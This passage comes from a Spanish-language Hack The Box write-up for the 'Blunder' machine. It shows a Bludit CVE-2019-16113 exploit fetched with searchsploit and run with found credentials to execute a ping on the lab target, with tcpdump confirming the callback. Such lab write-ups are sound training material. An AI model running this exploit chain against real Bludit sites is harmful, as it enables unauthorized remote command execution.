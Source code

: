 Nos traemos el exploit y al ejecutarlo nos pide algunos parametros

```bash
❯ searchsploit -m php/webapps/48568.py
  Exploit: Bludit 3.9.12 - Directory Traversal
      URL: https://www.exploit-db.com/exploits/48568
     Path: /usr/share/exploitdb/exploits/php/webapps/48568.py
File Type: Python script, ASCII text executable, with very long lines

Copied to: /home/fmiracle/Git/firtsmiracle.github.io/assets/images/HTB/htb-writeup-Blunder/48568.py
❯ mv 48568.py exploit_bludit.py
❯ python3 exploit_bludit.py


╔╗ ┬  ┬ ┬┌┬┐┬┌┬┐  ╔═╗╦ ╦╔╗╔
╠╩╗│  │ │ │││ │   ╠═╝║║║║║║
╚═╝┴─┘└─┘─┴┘┴ ┴   ╩  ╚╩╝╝╚╝

 CVE-2019-16113 CyberVaca


usage: exploit_bludit.py [-h] -u URL -user USER -pass PASSWORD -c COMMAND
exploit_bludit.py: error: the following arguments are required: -u, -user, -pass, -c
```

Ejecutamos el exploit con los parametros correspondientes y con `-c` especificamos el comandos que deseamos ejecutar, para ello probaremos enviarnos una traza a nuestra maquina.

```bash
❯ python3 exploit_bludit.py -u http://10.10.10.191 -user fergus -pass RolandDeschain -c 'ping 10.10.16.4'


╔╗ ┬  ┬ ┬┌┬┐┬┌┬┐  ╔═╗╦ ╦╔╗╔
╠╩╗│  │ │ │││ │   ╠═╝║║║║║║
╚═╝┴─┘└─┘─┴┘┴ ┴   ╩  ╚╩╝╝╚╝

 CVE-2019-16113 CyberVaca


[+] csrf_token: 56c6bb6a8ba8cb234b81e3fc60794fa537f591c6
[+] cookie: tg456638i906rknr4n27it5kr3
[+] csrf_token: 0208621fe6b05f215d6f16a7675200b78af3cd2b
[+] Uploading tdbdwfqf.jpg
[+] Executing command: ping 10.10.16.4
[+] Delete: .htaccess
[+] Delete: tdbdwfqf.jpg
```

y vemos que recibimos la traza en nuestro equipo.

```bash
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
20:48:34.774870 IP 10.10.10.191 > 10.10.16.4: ICMP echo request, id 4083, seq 1, length 64
20:48:34.774896 IP 10.10.16.4 > 10.10.10.191: ICMP echo reply, id 4083, seq 1, length 64
20:48:35.702537 IP 10.10.10.191 > 10.10.16.4: ICMP echo request, id 4083, seq 2, length 64
20:48:35.702583 IP 10.10.16.4 > 10.10.10.191: ICMP echo reply, id 4083, seq 2, length 64
20:48:36.774871 IP 10.10.10.191 > 10.10.16.4: ICMP echo request, id 4083, seq 3, length 64
20:48:36.774913 IP 10.10.16.4 > 10.10.10.191: ICMP echo reply, id 4083, seq 3, length 64
20:48:37.615149 IP 10.10.10.191 > 10.10.16.4: ICMP echo request, id 4083, seq 4, length 64
20:48:37.615194 IP 10.10.16.4 > 10.10.10.191: ICMP echo reply, id 4083, seq 4, length 64
```

